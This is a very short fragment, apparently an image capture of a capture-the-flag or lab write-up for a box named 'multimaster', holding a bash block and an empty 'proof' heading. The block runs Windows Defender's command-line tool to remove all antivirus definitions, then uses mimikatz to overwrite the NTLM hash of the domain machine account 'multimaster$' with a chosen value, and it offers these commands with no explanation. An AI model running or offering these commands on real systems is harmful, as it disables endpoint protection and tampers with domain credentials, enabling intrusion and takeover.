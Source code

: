 ```bash
cd /progra~1
mpcmdrun.exe -removedefinitions -all

mimikatz.exe "lsadump::setntlm /user:multimaster$ /ntlm:289fcbb2f2a91035588e3f090e0a5798" "exit"
```





## proof

```bash


```



